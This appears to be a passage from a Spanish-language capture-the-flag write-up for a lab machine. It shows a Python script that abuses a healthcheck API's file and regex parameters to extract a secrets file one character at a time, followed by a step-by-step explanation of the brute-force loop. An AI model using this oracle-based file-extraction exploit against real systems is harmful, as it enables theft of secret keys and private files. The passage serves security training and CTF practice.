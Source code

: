 ```python
## Ctrl+C
def def_handler(sig, frame):
    print("[!] Saliendo...")
    sys.exit(1)


signal.signal(signal.SIGINT, def_handler)


if __name__ == "__main__":

	p1 = log.progress("Local file inclusion via regex")

	p2 = log.progress("SECRET_KEY: ")

	url = "http://dev.rainycloud.htb:8081/api/healthcheck"

	headers = {
		"Cookie": "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-t9zQ.QD3-7e8GkvU84-RV4Y8ehaSVIy0",
	}

	secret_key = ""

	for pos in range(1, 500):
		for letter in letters:

			if not "*" in letter and not "?" in letter and not "+" in letter and not "." in letter:
	
				post_data = {
					"file": "/var/www/rainycloud/secrets.py",
					"pattern": f"^{secret_key}{letter}",
					"type": "CUSTOM",
				}

				p1.status(post_data["pattern"])
				r = requests.post(url, headers=headers, data=post_data, proxies=burp)

				if "true" in r.text:
					secret_key += letter
					p2.status(secret_key)
					break
```

Ejemplo de funcionamiento:

* *secret_key* contendrá el archivo. Al principio está vacio.
* En la primera iteración se enviará como patrón *^a*. 
* Si la respuesta del servidor es *true*, querrá decir que *secrets.py* empieza por *a* y por tanto se guardará este valor en *secret_key*. Posteriormente, con *break* saldremos del bucle interior y en la siguiente interación se enviará el patrón *^aa*. Si *secrets.py* no empieza por *aa*, el resultado no será *true* y en la siguiente iteración se enviará *^ab*. Si *secrets.py* empieza por *ab* el resultado será *true* y se guardará el valor en *secret_key*. Así sucesivamente hasta obtener el contenido del archivo.
